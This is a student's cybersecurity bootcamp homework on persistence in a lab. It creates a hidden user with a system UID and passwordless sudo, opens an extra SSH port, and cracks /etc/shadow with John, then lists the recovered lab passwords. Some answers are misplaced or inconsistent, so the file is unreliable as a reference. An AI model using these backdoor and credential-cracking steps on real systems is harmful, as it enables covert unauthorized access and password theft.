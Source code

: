 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **adduser sysd**

2. Give your secret user a password: 
    - **hack**

3. Give your secret user a system UID < 1000:
    - **usermod -u 900 sysd**

4. Give your secret user the same GID:
   - **groupmod -g 900 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   -  **sudo visudo**

6. Test that `sudo` access works without your password:

   - **sysd ALL=(ALL:ALL) NOPASSWD:ALL**
    - **sudo -l command after changing access permission output: User sysd may run the following commands on UbuntuDesktop:**
    **(ALL:ALL) NOPASSWD: ALL**

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    Add Port 2222 under Port 22
    Looks like:  Port 22
                 Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **systemctl restart ssh**

2. Exit the `root` account:
    - **su sysd** 
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - **sudo su**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - **ssh sysd@192.168.6.105 -p 2222**
    
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - **sudo su**
    - **john /etc/shadow**
    - **passwords(user=passwd): stallman=computer, babbage=freedom, mitnik=trustno1, lovelace=dragon, turing=lakers, sysadmin=passw0rd, root=passwd, student=Goodluck!,sysd=passwerd**
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

